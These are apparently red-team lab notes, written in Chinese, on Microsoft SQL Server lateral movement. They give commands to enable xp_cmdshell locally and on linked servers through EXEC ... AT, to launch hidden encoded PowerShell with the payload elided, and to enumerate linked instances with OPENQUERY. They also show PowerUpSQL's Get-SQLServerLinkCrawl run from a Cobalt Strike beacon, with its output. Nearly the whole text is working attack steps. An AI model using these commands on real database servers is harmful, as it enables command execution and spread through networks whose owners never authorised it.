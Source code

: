 ```
开启xp_cmdshell功能
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

执行powershell命令
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

## MS SQL Lateral Movement

1. 获取实例

## 方法一，手动抓取

枚举当前机器的mssql的实例
```
SELECT * FROM master..sysservers;
```


可以利用上面的实例运行sql语句

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

**注意，上面实例使用双引号，sql语句使用单引号。**


查看某个实例是否有xp_cmdshell权限
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

如果被禁用，开启xp_cmdshell
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```

## 方法二，自动抓取 


使用```Get-SQLServerLinkCrawl```命令

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"

Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}
